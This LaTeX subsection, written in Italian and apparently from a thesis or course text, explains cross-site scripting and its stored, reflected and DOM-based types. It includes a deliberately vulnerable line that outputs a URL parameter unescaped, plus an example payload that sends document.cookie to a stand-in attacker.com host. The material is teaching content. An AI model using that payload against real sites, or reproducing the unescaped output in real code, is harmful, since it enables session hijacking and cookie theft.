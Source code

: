 \subsection{Cross site scripting}
Vulnerabilità di tipo Cross site scripting (denominate spesso con l'acronimo XSS, da non confondere con CSS di cascading style sheets) si verificano quando un'applicazione riceve dati di input non fidati e li invia ad un browser senza un'appropriata procedura di controllo e validazione. \\
XSS consente ad un attaccante di eseguire scripts sul browser della vittima, i quali possono effettuare l'hijacking della sessione utente, possono recuperare cookie di sessione, possono redirezionare l'utente su siti web malevoli o possono effettuare defacing del sito web. \\
Un esempio di cross site scripting può essere il seguente:\\

\begin{lstlisting}[language=PHP]
$page += "<input name='creditcard' type="text" value='" + $_GET["CC"] + "'>";
\end{lstlisting}

Supponendo di avere una pagina che mostra a video il numero di carta di credito di un individuo, ottenuto attraverso i parametri in input dall'URL, l'attaccante potrà semplicemente costruire un URL con un valore del parametro \emph{CC} modificato e fare in modo che l'utente visiti tale URL per effettuare l'hijacking della sessione utente, come nell'esempio seguente:\\

\begin{lstlisting}[language=PHP]
'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
\end{lstlisting}

Esistono tre diverse tipologie di cross site scripting:
\begin{itemize}
\item Stored: Il codice viene iniettato nel server in modo permanente, ad esempio in un database. La vittima riceve quindi lo script malevolo ad ogni visita della pagina che mostra a video quel valore.
\item Reflected: Il codice malevolo non viene iniettato nel server ma viene inviato alla vittima attraverso mezzi alternativi, come un email contenente un link. Quando l'utente clicca su tale link il codice viene eseguito.
\item DOM based: Un payload malevolo viene eseguito come risultato della modifica del DOM\footnote{Document Object Model} del browser dell'utente. La risposta HTTP in questo caso non cambia ma il codice contenuto nella pagina viene eseguito in modo diverso a causa delle modifiche al DOM.\\
E' diverso da stored e reflected XSS poichè in questo caso il payload malevolo non è nella pagina di risposta del server ad una richiesta.
\end{itemize}

